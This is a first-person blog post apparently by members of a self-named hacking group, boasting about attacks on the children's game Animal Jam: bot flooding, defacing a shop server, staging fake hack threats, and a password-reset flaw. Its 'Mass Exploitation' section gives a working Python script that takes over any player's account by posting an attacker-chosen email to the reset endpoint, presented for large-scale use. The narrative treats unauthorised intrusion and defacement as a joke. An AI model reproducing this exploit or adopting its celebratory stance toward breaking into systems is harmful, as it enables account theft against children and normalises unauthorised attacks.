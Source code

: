 ```yaml
---
layout: post
title: "Electric Boogaloo: Hacking Animal Jam"
subtitle: "~ AKA, how we pwned Animal Jam ~"
date: 2021-9-7
author: chob
tags: pentesting
finished: true
excerpt_separator: <!--more-->
---
```


> **DISCLAIMER**: The aim of this post is not to offend or attack anyone. Instead it is to inform to you the story about how Animal Jam was pwned by us (AstroSquad). I do not condone malicious behavior. Thank you for understanding.

# Preface
As the title suggests, this post will touch on how me and a few other junior security researchers (also nicknamed "AstroSquad") were able to "hack" or "pwn" a poorly secured kids game called "Animal Jam". <!--more--> <br>

This all started when one of our researchers (psuedo named "Moon") looked into Animal Jam, he messed around with the API and told us that there wasn't a rate limit on the RPS (Request Per Second), one of us wrote a script to automate the registration process and made hundreds of bots that joined the game servers which froze players clients. They shortly added rate limit globally to the API. That was only the start, on August 6 2020, another one of our researchers (psuedo named "HellSec") found the IP of one of their boxes, we assumed that we couldn't get into it at first, but within a few hours, we managed to pwn the box. Surprisingly there was not much on the box, it was a AWS box and it was the box for the Animal Jam shop (**shop.animaljam.com**). With a limited time, we made a simple deface page and overwrote it to the index page.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/compilation.png" target="_blank"><img class="centerImgMedium" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/compilation.png"></a>

As you can see from the complilation above, they believed we had a apparent "ip logger" and other malicious items, this gave us a notorious reputation as this group of 40 year olds in their mothers basement that are very **1337**, which was not the case. From there, we wanted to test how much the community and the company WildWorks was afraid of apparent fake threats. So around October 2020, we made a threat that we were going to "hack" Animal Jam on halloween, the community freaked and made a bunch of YouTube videos with WildWorks putting their servers on lockdown. It was the biggest lawl for us. <br>

Now that you understand the context before the main pwn; without further ado, let's get into the main pwn. On August 16, 2021, we discovered a 0day **no-auth** full account takeover on Animal Jam. How? simple. A fucking password reset endpoint. Let me repeat that, a fucking **password reset endpoint**, someone must've been some crack while writing the endpoint lol (╯°□°）╯︵ ┻━┻.

***
# Discovering the vulnerability
Basically, one of our researchers used Fiddler to capture all the traffic coming from the Animal Jam application because he was capturing all the traffic he managed to come across the `/disable` endpoint. Every account on Animal Jam is linked to a certain "parent account", and since he got the endpoint for `/disable` he was able to look at the post data (the data that is sent with the post request) he noticed on the post data you were able to send a custom email in the post data so he replaced the email, not expecting anything until.. he recieved a email from Animal Jam and funny enough, once he clicked on the disable account link, it automatically overrided the email that is already linked to the account with the custom email you put in.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/lawl.gif" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/lawl.gif"></a>

Only issue with this is that it didn't disable the player, but knowing it did link the account, he searched for other endpoints using Fiddler that had the same post data requirements, until.. he found the `/send_password_reset` endpoint and by sending the request he was able to takeover ANY players account by sending a post request with the generosity with of course, no authentication at all. He then alerted us about this and showed it wasn't a joke on a screenshare.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/meme.jpg" target="_blank"><img class="centerImgLarge" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/meme.jpg"></a>
***

# Mass Exploitation
Now we know the vulnerability, how do we use it on a large scale attack? Simple! All we need to do is write a script to send a post request with the post data and the target with a burner email.

### - Writing the exploit using python3
Lets start by making a Python script and then importing the request library for sending the post request and sys for argument handling and then supplying the endpoint with the request:
```python
#!/usr/env/python3
import requests
import sys

class Exploit:

    def __init__(self, username, email):
        self.username = username
        self.email = email

    def execute(self):
        endpoint = f'https://api.animaljam.com/game_account/{username}/send_password_reset/desktop'
        return requests.post(url=endpoint, data={'email': email, 'user_name': username}, headers={'auth': 'null'})

def main():
    if len(sys.argv) < 3:
        print(f'Usage: py {sys.argv[0]} <USERNAME> <YOUR_EMAIL>')
        sys.exit()

    username = sys.argv[1]
    email = sys.argv[2]

    Exploit(username, email).execute()

if __name__ == '__main__':
    main()
```
and **PWNED**! Now you can takeover anyones account just by supplying the username and a burner email lol.
<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ez.jpg" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ez.jpg"></a>
Although it was patched due to the security advisory we released the next day because Animal Jam was having some issues making a patch lol, but here's a gif & a image of us on the AJHQ account on the parents dashboard using this exploit.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.gif" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.gif"></a>
<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.png" target="_blank"><img class="centerImgLarge" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.png"></a>
***

# Conclusion
hey! thank you reading if you got this far, as this is my first blog I've made. I will be making other blogs like this very soon, stay tuned!
